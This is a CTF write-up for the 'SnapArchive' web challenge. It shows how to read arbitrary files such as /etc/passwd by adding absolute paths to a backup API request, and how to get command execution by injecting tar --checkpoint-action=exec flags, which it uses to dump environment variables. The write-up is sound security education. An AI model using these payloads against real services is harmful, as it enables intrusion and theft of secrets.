

## Introduction

This is an interesting CTF challenge titled [SnapArchive](https://flagyard.com/labs/2/challenges/019fcd0a-3049-7b83-9886-ae3836c419f0). Unlike other challenges or labs, this one is actually fun; it consists of exploiting path traversal and chaining it with command injection.

## Recon

First, we are provided with a website that is a personal document backup and archiving service. It allows users to upload any type of file, view it, and when viewing it, the MIME type is set to text. There is also an X-Content-Type-Options: nosniff header, which means the browser cannot assign its own MIME type and only trusts the given Content-Type, which is text in this case. Because of that, MIME confusion and some XSS tricks will not work.



We can also create a ZIP file by selecting a group of uploaded files that will be compressed into that archive.

If we check the app's source code using View Page Source, we can find some interesting JavaScript.

```js
  const { data, ok } = await api("/api/backup", {
    method: "POST",
    headers: { "content-type": "application/json" },
    body: JSON.stringify({ archiveName, files }),
  });
  log.className = "log" + (ok ? "" : " error");
  log.textContent = JSON.stringify(data, null, 2);
  if (ok) { loadBackups(); loadInfo(); }

```

So the archiveName and files, which is an array in this case, are passed as body parameters to the `/api/backup` endpoint. Let's use Burp Suite to intercept the traffic going to this endpoint to see how files are sent.

We find that the sent data is in the following JSON format:

```json
{
"archiveName":"fulllist",

"files":["/tmp/data/uploads/readme.txt"]
}
```

So the actual path of the files is passed through the array, and it is an absolute path. Let's try to do something interesting by adding `/etc/passwd`.

## Vulnerability Detection

```json
{
"archiveName":"fulllist",

"files":["/tmp/data/uploads/readme.txt", "/etc/passwd"]
}
```

After that, we can download the generated `.tar.gz` file, and after extracting it, we actually find the `/etc/passwd` file within it, as shown in the following snippet.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bun:x:1000:1000::/home/bun:/bin/sh

```

So we found a path traversal vulnerability; all we had to do was look for the flag.


## Exploitation and Payload

After looking through virtually every file on the file system, I reached the following conclusions:

- I cannot read the `/root` folder.

- Some files are restricted and cannot be read, so we are a low-privilege user. Some of the restricted files are the ones that contain environment variables.

- The app code contains the following snippet: `await $`tar -czf ${archivePath} -C ${UPLOAD_DIR} ${files}`.quiet();`

So tar is used to create the `.tar.gz` file, and the files are passed directly to tar with some strict regex verification. We can exploit this by injecting flags into the tar command to perform RCE by adding the following two flags:

```sh
--checkpoint=1 --checkpoint-action=exec=<cmd>
```

These two flags indicate that each time one file is processed (`--checkpoint=1`), an action is performed—in our case, the execution of a command. In this way, we can access more things, such as environment variables. Let's test this as follows.

```sh
--checkpoint=1 --checkpoint-action=exec='touch /tmp/data/uploads/pwned.txt'
```

If we go to `http://Target/api/file/pwned.txt`, we find that it was created and no 404 response is returned, so RCE works in this case. Let's try to dump environment variables into a file we create as follows.

```js
files: [
  "--checkpoint=1",
  "--checkpoint-action=exec=sh -c 'env > /tmp/data/uploads/env.txt'",
  "readme.txt"
]
```

So if we check `http://Target/api/file/env.txt`, we can find the flag within the environment variables, as shown in the following snippet.

```
TAR_ARCHIVE=/tmp/data/backups/rceeeesssssssseee.tar.gz
DATA_DIR=/tmp/data
TAR_FORMAT=gnu
DYN_FLAG=FlagY{IN YOUR FACE FLAGYARDDDDDDDDDDD}
TAR_BLOCKING_FACTOR=20
PWD=/app
TAR_CHECKPOINT=1
TAR_VERSION=1.35
TAR_SUBCOMMAND=-c
```

## Conclusion

That was a nice challenge, and one of the ones I had fun with. It is not guided and teaches you some new things, especially to keep in mind the tar flags. As a tip, if there is a web challenge with a zip feature, keep in mind that you may exploit tar by injecting some flags. Or, as the LLM said, "Whenever an application passes attacker-controlled filenames or paths into an archive utility, investigate whether those values can be interpreted as command-line options."